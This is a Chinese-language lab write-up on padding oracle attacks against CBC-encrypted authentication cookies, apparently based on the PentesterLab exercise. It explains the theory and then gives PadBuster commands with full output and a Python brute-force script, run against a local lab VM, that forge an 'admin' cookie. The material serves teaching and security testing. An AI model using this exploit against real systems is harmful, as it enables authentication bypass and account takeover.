# Padding Oracle Attack
是针对 CBC 模式的攻击，此攻击可用于解密数据并重新加密任意数据。

 ## Introduction
 介绍如何利用 PHP 网站身份验证中的弱点。该网站使用 CBC 对用户提供的信息进行加密，并使用该信息来确保身份验证。如果在解密信息时填充有效，应用程序也会泄漏。我们将看到这种行为如何影响身份验证以及如何利用它。  

 ## CIPHER BLOCK CHAINING
 CBC 模式一对一个明文分组加密，每次加密使用同一密钥，加密算法的输入是当前明文分组和前一次密文分组的异或，因此加密算法的输入不会显示出与这次的明文分组之间的固定关系，所以重复的明文分组不会在密文中暴露出这种重复关系。解密时，加密的数据被分成 X 个字节的块。然后将该块解密并与前一个加密块进行异或以获得明文。   

   

 由于引入了反馈，CBC 可以将重复的明文分组加密成不同的密文分组，克服了 ECB 的弱点。然而，CBC 仅在前面的明文分组不同时才能将完全相同的明文加密成不同的密文分组，因此，任意两则消息在它们的第一个不同之处出现前，将被加密成同样的结果。防止这种情况发生的办法是用加密随机数据作为第一个分组，即初始化向量 IV(Intial Vector),IV 能使加密前的消息唯一化。  

 ## PADDING
 加密是由固定大小的块完成的，为了确保明文完全适合一个或多个块，通常使用填充的方法。填充可以通过多种方式完成，一种常见的方法是使用 PKCS7。 使用 PKCS7，填充将由相同的数字组成：丢失的字节数。例如，如果明文缺少 2 个字节，则填充将为 \x02\x02。

   

 ## PADDING ORACLE
 当应用程序解密加密数据时，会首先解密数据，然后删除填充。在填充清理过程中，如果无效的填充触发了可检测的行为，那么就有一个 PADDING ORACLE。检测的行为可能是错误、缺少结果或响应较慢。如果可以检测到这种行为，那么就可以解密加密的数据，甚至重新加密选择的明文。

 ## 理论
 放大来看，可以看到明文字节 C15 只是来自前一个块的加密字节 E7 和来自块解密步骤的字节 I15 之间的异或：  

   

 同理，  
 - C14 = I14 ^ E6  
 - C13 = I13 ^ E5  
 - C12 = I12 ^ E4  
 - ...  
 如果修改 E7 并不断改变它的值，将不断得到一个无效的填充。 因为我们需要 C15 是 \x01。然而，有一个 E7 值会给我们一个有效的填充,称为E'7。使用 E'7，将会得到一个有效的填充。由于我们知道我们得到了一个有效的填充，也知道 C'15（如在 C15 中的 E'7'）是 \x01。    
 `\x01 = I15 ^ E'7`    
 就有：   
 `I15 = \x01 ^ E'7`    
 所以就能够计算 I15    
 知道了 I15，也就能够得到 C15    
 `C15 = E7 ^ I15 = E7 ^ \x01 ^ E'7`   

 有了 C15 就可以转向暴力破解 C14，首先需要计算另一个 E7（我们称之为 E''7），它给我们 C15 = \x02。这样做是因为我们希望填充为 \x02\x02。使用上面的属性并通过替换我们想要的 C15 (\x02) 和 I15：  
 `E''7 = \x02 ^ I15`  
 在暴力破解 E6 之后，要找到提供有效填充 E''6 的值，我们可以重新使用公式：  
 ```  
 C14 = I14 ^ E6  
 I14 = \x02 ^ E''6  
 C14 = E6 ^ I14 = E6 ^ \x02 ^ E''6  
 ```
 使用这种方法，可以一直计算下去直到解密所有密文。  

 ## 漏洞检测 
 - 首先，注册一个帐户并使用此帐户登录  
 - 如果创建一个帐户并使用此帐户登录两次，您可以看到应用程序发送的 cookie 没有更改  
 - 如果尝试修改 cookie，会看到应用程序出现错误  
 ## 使用 PADBUSTER  
 通过使用 PadBuster，可以在几秒钟内利用这个问题。为此，需要使用 PadBuster 执行以下步骤：  
 - 解密 cookie  
 - 生成一个新的 cookie 成为管理员  
  
 ## 实验
 ### 实验前准备
 - kali linux    
 - Padding Oracle PentesterLab 镜像    
  `ifconfig` 查看地址为 192.168.56.104    

        

 - padbuster 
 ### 实验过程
 - step 1 注册用户 cuc，查看 cookie，记录 auth   
 - 
   

 - step 2 用创建的用户连续登录两次，cookie 没有更改  
 - step 3 破解 auth cookie ，利用 padbuster    
 - step 4 破解密文  
 - 
   
   
 - step 5 伪造密文，生成新的 cookie，能够以admin身份登录  
 
   
   
  
 - step 6 更改 cookie，登录成功  
  
    
   

 ```
 perl padBuster.pl http://192.168.56.104/login.php fM2H6W2coHwhfadXl%2BFR1i%2BCQDeQg5sy 8 --cookies auth=fM2H6W2coHwhfadXl%2BFR1i%2BCQDeQg5sy --encoding 0

 +-------------------------------------------+
 | PadBuster - v0.3.3                        |
 | Brian Holyfield - Gotham Digital Science  |
 | labs@gdssecurity.com                      |
 +-------------------------------------------+

 INFO: The original request returned the following
 [+] Status: 200
 [+] Location: N/A
 [+] Content Length: 1530

 INFO: Starting PadBuster Decrypt Mode
 *** Starting Block 1 of 2 ***

 INFO: No error string was provided...starting response analysis

 *** Response Analysis Complete ***

 The following response signatures were returned:

 -------------------------------------------------------
 ID#     Freq    Status  Length  Location
 -------------------------------------------------------
 1       1       200     1677    N/A
 2 **    255     200     15      N/A
 -------------------------------------------------------

 Enter an ID that matches the error condition
 NOTE: The ID# marked with ** is recommended : 2 
 Continuing test with selection 2

 [+] Success: (226/256) [Byte 8]
 [+] Success: (41/256) [Byte 7]
 [+] Success: (4/256) [Byte 6]
 [+] Success: (172/256) [Byte 5]
 [+] Success: (98/256) [Byte 4]
 [+] Success: (28/256) [Byte 3]
 [+] Success: (71/256) [Byte 2]
 [+] Success: (255/256) [Byte 1]

 Block 1 Results:
 [+] Cipher Text (HEX): 217da75797e151d6
 [+] Intermediate Bytes (HEX): 09bee29b50ffd51f
 [+] Plain Text: user=cuc

 Use of uninitialized value $plainTextBytes in concatenation (.) or string at padBuster.pl line 361, <STDIN> line 1.
 *** Starting Block 2 of 2 ***

 [+] Success: (33/256) [Byte 8]
 [+] Success: (165/256) [Byte 7]
 [+] Success: (22/256) [Byte 6]
 [+] Success: (101/256) [Byte 5]
 [+] Success: (166/256) [Byte 4]
 [+] Success: (87/256) [Byte 3]
 [+] Success: (142/256) [Byte 2]
 [+] Success: (223/256) [Byte 1]

 Block 2 Results:
 [+] Cipher Text (HEX): 2f82403790839b32
 [+] Intermediate Bytes (HEX): 2975af5f9fe959de
 [+] Plain Text: 

 -------------------------------------------------------
 ** Finished ***

 [+] Decrypted value (ASCII): user=cuc

 [+] Decrypted value (HEX): 757365723D6375630808080808080808

 [+] Decrypted value (Base64): dXNlcj1jdWMICAgICAgICA==

 -------------------------------------------------------
 perl padBuster.pl http://192.168.56.104/login.php fM2H6W2coHwhfadXl%2BFR1i%2BCQDeQg5sy 8 --cookies auth=fM2H6W2coHwhfadXl%2BFR1i%2BCQDeQg5sy --encoding 0 --plaintext user=admin

 +-------------------------------------------+
 | PadBuster - v0.3.3                        |
 | Brian Holyfield - Gotham Digital Science  |
 | labs@gdssecurity.com                      |
 +-------------------------------------------+

 INFO: The original request returned the following
 [+] Status: 200
 [+] Location: N/A
 [+] Content Length: 1530

 INFO: Starting PadBuster Encrypt Mode
 [+] Number of Blocks: 2

 INFO: No error string was provided...starting response analysis

 *** Response Analysis Complete ***

 The following response signatures were returned:

 -------------------------------------------------------
 ID#     Freq    Status  Length  Location
 -------------------------------------------------------
 1       1       200     1677    N/A
 2 **    255     200     15      N/A
 -------------------------------------------------------

 Enter an ID that matches the error condition
 NOTE: The ID# marked with ** is recommended :2
 Continuing test with selection 2

 [+] Success: (196/256) [Byte 8]
 [+] Success: (148/256) [Byte 7]
 [+] Success: (92/256) [Byte 6]
 [+] Success: (41/256) [Byte 5]
 [+] Success: (218/256) [Byte 4]
 [+] Success: (136/256) [Byte 3]
 [+] Success: (150/256) [Byte 2]
 [+] Success: (190/256) [Byte 1]

 Block 2 Results:
 [+] New Cipher Text (HEX): 23037825d5a1683b
 [+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

 [+] Success: (1/256) [Byte 8]
 [+] Success: (36/256) [Byte 7]
 [+] Success: (180/256) [Byte 6]
 [+] Success: (17/256) [Byte 5]
 [+] Success: (146/256) [Byte 4]
 [+] Success: (50/256) [Byte 3]
 [+] Success: (132/256) [Byte 2]
 [+] Success: (135/256) [Byte 1]

 Block 1 Results:
 [+] New Cipher Text (HEX): 0408ad19d62eba93
 [+] Intermediate Bytes (HEX): 717bc86beb4fdefe

 -------------------------------------------------------
 ** Finished ***

 [+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
 -------------------------------------------------------
 ```
 ## Python 代码替代 padbuster
 ```
 import os
 import time
 import requests
 import base64
 import urllib
 import re
 import binascii

 from Crypto.Cipher import DES
 from Crypto import Random

 # Set proxy
 proxies = {'http': 'http://127.0.0.1:8080'}

 # Set target url
 target_url = "http://192.168.56.104/login.php"

 # Set known cipher text in order to decrypt
 cipher_text = "fM2H6W2coHwhfadXl%2BFR1i%2BCQDeQg5sy"

 # Set padding list
 padding_list = ['01', '02', '03', '04', '05', '06', '07', '08']

 # Set plain text in order to encrypt
 plain_text = 'user=admin'

 # Break plain text to HEX list
 plain_hex_list = re.findall('.{1,2}', plain_text.encode('hex'))
 n_length = len(plain_hex_list)

 # Break cipher text to HEX list
 #cipher_hex = base64.b64decode(cipher_text).encode('hex')
 #cipher_hex_list = re.findall('.{1,2}', cipher_hex)

 # Get the number of Block
 n_block = (n_length/8 + 1)

 # Get the number of padding
 n_padding = (n_block*8 - n_length)

 # Padding the plain text
 for i in range(0, n_padding):
	plain_hex_list.append(padding_list[n_padding-1])

 c_list = ['00'] * 8
 i_list = ['00'] * 8
 tmp_e_list = ['00'] * (8 * n_block)
 new_cipher_full = '00' * 8

 # Brute force decrypt
 for index in range(0, n_block):
	print ('Start block: ' + str(n_block-index) + ' out of ' + str(n_block))

	for i in range(0,256):
		tmp_e_list[7] = ("%0.2x" % i)
		payload_encoded = base64.b64encode("".join(tmp_e_list).decode('hex'))
		cookie = dict(auth=payload_encoded)

		r = requests.get(target_url, cookies = cookie)
		if r.text.find('Invalid padding'):
			print (i)
			i_list[7] = "%0.2x" % (int(tmp_e_list[7],16) ^ int(padding_list[0],16))
			break

	for i_padding in range(1, 8):
		print ("i padding: "+str(i_padding))
		for x in range(0,i_padding):
			tmp_e_list[(7-x)] = "%0.2x" % (int(padding_list[i_padding],16) ^ int(i_list[(7-x)],16))
		for i in range(0,256):
			tmp_e_list[(7-i_padding)] = ("%0.2x" % i)		
			payload_encoded = base64.b64encode("".join(tmp_e_list).decode('hex'))
			cookie = dict(auth=payload_encoded)
			r = requests.get(target_url, cookies = cookie)

			if r.text.find('Invalid padding'):
				i_list[(7-i_padding)] = "%0.2x" % (int(tmp_e_list[(7-i_padding)],16) ^ int(padding_list[i_padding],16))
				break

	new_cipher = "%0.2x" % (int("".join(plain_hex_list[(n_block-index-1)*8:(n_block-index)*8]),16) ^ int("".join(i_list),16))
	print ("Block " + str(n_block-index) + " Results:")
	print ("[+] Intermediate Bytes (Hex): " + "".join(i_list))
	print ("[+] Cipher Text (Hex): " + new_cipher)
	tmp_e_list[(n_block-index-1)*8:(n_block-index)*8] = re.findall('.{1,2}', new_cipher)
	new_cipher_full = new_cipher + new_cipher_full

 print ("** Finished **")
 print ("[+] Encrypted value is: " + base64.b64encode(new_cipher_full.decode('hex')))
 ```


 ## 总结
 实验展示了如何在不解密的情况下篡改加密信息，并使用此行为来访问其他帐户。可见加密不能替代签名，以及如何使用 Padding Oracle 来解密和重新加密信息。  

 ## 参考 
 [PadBuster Installation](https://github.com/AonCyberLabs/PadBuster)   
 [a-padding-oracle-example](https://blog.skullsecurity.org/2013/a-padding-oracle-example)   
 [Padding Oracle Attack Video](https://www.youtube.com/watch?v=stavVFjg_ec)   
 [pentesterlab padding_oracle course](https://pentesterlab.com/exercises/padding_oracle/course)   
 [python-paddingoracle](https://github.com/mwielgoszewski/python-paddingoracle)   
 [gdssecurity automated-padding-oracle-attacks-with-padbuster](https://blog.gdssecurity.com/labs/2010/9/14/automated-padding-oracle-attacks-with-padbuster.html)   


 
 


